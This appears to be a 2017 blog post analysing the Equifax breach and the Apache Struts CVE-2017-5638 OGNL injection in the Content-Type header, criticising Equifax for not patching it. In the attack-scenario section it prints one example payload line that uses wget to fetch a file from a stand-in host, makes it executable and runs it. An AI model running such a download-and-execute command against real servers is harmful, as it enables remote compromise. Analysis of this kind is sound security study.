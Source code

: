 ```yaml
---
layout: post
comments: true
title:  "The Equifax Breach"
excerpt: "A Comprehensive Investigation of the Equifax Security Incident."
date:   2017-11-07 11:00:00
mathjax: false
---
```


- The Breach

On Sept 7, Equifax, one of the three biggest credit monitoring companies, announced a major data breach. Hackers broke into the company’s database and stole private information from 143 million people, nearly half of the adult population in America (Thomas, 2017).
This is not the first major data breach in America. In 2013, information from one billion accounts was compromised during a cyber-attack on Yahoo. In 2014, at Yahoo again, another 500 million passwords and account information were exposed (Yahoo breaches n.d.).
However, the Equifax breach is one of the worst of its kind. Because the information exposed is highly sensitive, including names, birthdays, addresses, social security numbers and even driver’s license numbers (Thomas, 2017). Fraudsters dream of exactly this type of information. They will be able to apply for credit cards and open bank accounts in another person’s name. In the worst scenario, they can print fake IDs and commit crimes using other people’s identities. Many customers became victims without having heard of Equifax. Yet Equifax holds a full set of credit information about them and maintains this information so poorly.

The specific vulnerability of this breach lay in Apache Struts, a widely used framework for building web applications. Equifax uses Apache Struts to build its website server. Early in 2017, Apache Struts was found vulnerable to remote command execution (RCE). The flaw was labeled CVE 2017-5638 and soon patched on March 06 (Thomas, 2017). A simple software update will keep websites away from this kind of attack.

Surprisingly, as a company carrying so much sensitive information, Equifax ignored the important patch. They said that this breach on their website began in mid-May, two months later after the patch was available (Goodin, 2017). Actually, since the publication of the patch, the flaw has been widely discussed and analyzed. Demonstration exploits are available on Github. Even nonexperts are able to download example code and perform RCE attack on websites using unpatched Apache Struts. Unfortunately, Equifax is one such site. It was like a fat rabbit striding in a dangerous woods that finally caught the attention of a hungry predator.

- The Attack Scenario

When a client sends an HTTP request to a server running Apache Struts, a content-type specification is passed along with this request. If the content-type is not valid, an exception will be raised. Then a function named “LocalizedTextUtil.findText” will be called. It will use the invalid content-type to build error message for clients. During the process, the function will evaluate the supplied message. Anything within ${...} in this message will be evaluated as an Object Graph Navigation Library (OGNL) expression. If the OGNL expression is a function call, this expression will be executed (Sahu, 2017).

If a content-type message is deliberately made up by an attacker, evaluation of this message as OGNL expression will enable the attacker to execute any commands on servers. To make matters worse, attackers can redirect outputs of executions to the feedback to them. In this way, they can see results of executions and do further damage, for example, locating and transferring critical data (Sahu, 2017). A typical RCE attack is to download and run malicious files on host machines. (As illustrated by the code follows.)

```
#cmds=({'wget –c http://www.xxx.com/fileX; chmod 777 fileX;./fileX;'})
```

The flaw was patched by disabling the use of “LocalizedTextUtil.findText” function. Although it was patched on March 6, many websites didn’t get updates in time. Shortly after the update was available, the number of attacks exploiting this bug grew dramatically (Goodin, 2017). It seemed that many attackers were not aware of the bug until it was officially announced. And they reacted to it more quickly than programmers maintaining those vulnerable websites, if there were any maintainer at all.

<div class="imgcap">
<img src="/assets/attack_timeline.png">
<div class="thecap">CVE-2017-5638 Exploitations Attempts (Goodin, 2017)</div>
</div>


- Security Flaw Summary

During this incident, three things are noticeable. The first is the execution of content-type message. The content-type messages are essentially strings from users. They are not expected to be and should never be executed. Second, the OGNL expressions make it very convenient to manipulate Java objects. Meanwhile, they bring a number of vulnerabilities to the Struts framework (Munoz, 2014), the building block of numerous websites around the world. At last, the breach would not have happened without the failure to patch a two-month-old flaw. It is hard to imagine that such a company as Equifax is so ignorant of security.

- Bibliography

[1] Goodin, D. (2017, Sept 13). Failure to patch two-month-old bug led to massive Equifax breach. Ars Technica. Retrieved from https://arstechnica.com

[2] Goodin, D. (2017, March 14). In-the-wild exploits ramp up against high-impact sites using Apache Struts. Ars Technica. Retrieved from https://arstechnica.com

[3] Munoz, A. (2014, Jan 14). Struts 2: OGNL Expression Injections. Micro Focus. Retrieved from https://community.saas.hpe.com

[4] Thomas, Fox. (2017, Sept 14). How Hackers Broke Equifax: Exploiting a Patchable Vulnerability Forbes. Retrieved from https://www.forbes.com

[5] Sahu, S. (2017, March 3). CVE-2017-5638: Apache Struts 2 Vulnerability Leads to Remote Code Execution. Trend Micro. Retrieved from http://blog.trendmicro.com/

[6] Yahoo breaches. (n.d.). Wikipedia. Retrieved September 26, 2017, from https://en.wikipedia.org/wiki
/Yahoo!_data_breaches
